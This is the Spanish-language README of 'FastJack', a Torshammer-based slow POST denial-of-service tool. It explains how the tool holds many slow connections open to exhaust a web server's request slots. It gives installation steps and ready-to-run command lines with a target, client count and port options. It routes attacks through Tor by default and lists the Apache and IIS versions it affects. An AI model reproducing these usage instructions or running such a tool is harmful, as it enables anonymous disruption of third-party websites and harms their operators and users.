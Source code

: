 ![alt text](https://raw.githubusercontent.com/neo-jack-official/FastJack/master/img/vista.png)
# fastjack.py - FastJack es un remake (nueva version) de Torshammer 1.0, re editado por Neo-Jack ENE/2020

## ¿Qué es FasJack?
Es una herramienta de prueba lenta de denegación de servicios POST.


## ¿Como funciona?
1. Realiza publicaciones POST, por clientes pre asignados.(defecto: 256, recomendado de 128 a 320)
2. se envian encabezados periódicamente (cada ~ 0.1 seg.) de forma continua, sin pausas.
3. Nunca se cierra la conexión a menos que el servidor lo haga. Si el servidor cierra una conexión, se crea una nueva (se muestra como "Re-Conectando Cliente") y seguimos haciendo lo mismo.
4. Por defecto se conexta automaticamente a servidor TOR en 127.0.0.1:9050.
5. FastJack incorpora Modulo independiente HostJack-Checker.py beta, con auto Ejecucion. (verifica estado del Servidor, cada 9.5 Seg en ventana independiente "Version beta NO incluye Conexion TOR")

Esto llena el cupo de peticiones del servidor inundandolo y evita que pueda responder a peticiones externas de terceros.

## Como Instalar y correr PYTHON?

FastJack es un archivo con extencion "Py", solo requiere tener pre instalado Python.

## Preparamos la instalacion para python

* `sudo apt-get update`
* `sudo apt-get install build-essential checkinstall`
* `sudo apt-get install libreadline-gplv2-dev libncursesw5-dev libssl-dev libsqlite3-dev tk-dev libgdbm-dev libc6-dev libbz2-dev`
* `sudo apt-get install python2.7`
* `sudo apt-get install python3.6`

## Revisamos que python esta instalado correctamente

* `python -V | python3 -V`


### Soporte para proxy SOCKS5

Si planea usar la opción `-x` para usar un proxy SOCKS5 para conectarse en lugar de una conexión directa a través de su dirección IP, deberá instalar la biblioteca` PySocks`.
 [`PySocks`] (https://github.com/Anorov/PySocks)
 [` SocksiPy`] (http://socksipy.sourceforge.net/) by GitHub @Anorov y puede ser instalado fácilmente por comando ` pip` 

* `sudo pip3 install PySocks`

Luego puede usar la opción `-x` para activar el soporte SOCKS5 y las opciones` --proxy-host` y `--proxy-port` para especificar el host proxy SOCKS5 y su puerto, si son diferentes del estándar` 127.0.0.1: 8080`.

## Opciones de Configuracion

* `-h = Ayuda`
* `-t = Para fijar Targer WEB` # Nota: ES REQUERIDO USAR -t
* `-p = Puerto, por defecto : 80`
* `-r = Clientes, por defecto : 256` recomendacion (entre 128 a 320)
* `-T = Habilitar el enrutamiento TOR, por defecto: Activado`

## Como lo utiliso?

Si `fastjack.py` esta en Escritorio
1) Abra terminal, Escriba `cd Escritorio`
2) Ejecute bajo Python `python fastjack.py -t www.ejemplo.com`

## Ejemplos de comandos.

  Cambiando cantidad de Clientes:
* `python fastjack.py -t www.ejemplo.com -r 128` Para 128 Clientes
  Cambiando el puerto:
* `python fastjack.py -t www.ejemplo.com -p 443` Para cambiar puerto defecto 80 a 443.
  Combinando comandos:
* `python fastjack.py -t www.ejemplo.com -r 128 -p 443`
* `python fastjack.py -t www.ejemplo.com -T` Activando TOR


## Servidores Afectados
Servidores web desprotegidos que ejecutan Apache e IIS a través de una sola instancia.
Apache 1.X y IIS anteriores con ~ 128 Clientes.
Los nuevos IIS y Apache 2.X con ~ 256 Clientes.

## Problemas.

# 1) Puedes dejar activa la conexion TOR de forma automatica.

Edite fastjack.py con su editor de texto favorito:
1) Busque las lineas:

* target = ''
* threads = 256
* `tor = False`
* port = 80 

2) Modifique:
* tor = False
por: 
* `tor = True`

# 2) Si usted tiene un Terminal distinto a (Genome Terminal)

Edite fastjack.py con su editor de texto favorito:
1) Busque la linea:
       ` os.system("gnome-terminal -- python hostjack-checker.py " + target + " " + torstatus) `

2) Modifiquela colocando un # al principio de la linea
       `# os.system("gnome-terminal -- python hostjack-checker.py " + target + " " + torstatus) `

De esta forma desactivara el modulo acoplado HostJack-Checker sin afectar el funcionamiento de FastJack

HostJack-Checker podra ejecutarlo de forma separada. y Activar TOR si lo desea.

-Sin TOR
* `python hostjack-checker.py www.ejemplo.com `
* `python hostjack-checker.py www.ejemplo.com -F`

-Con TOR
* `python hostjack-checker.py www.ejemplo.com -T`

HostJack-Checker NO requiere de argumento -t para operar.

## Agradecimientos a:
ShadowsDdos : Colaboracion en gestion modular de codigo para comportamiento autonomo de forma independiente con captacion de variable.




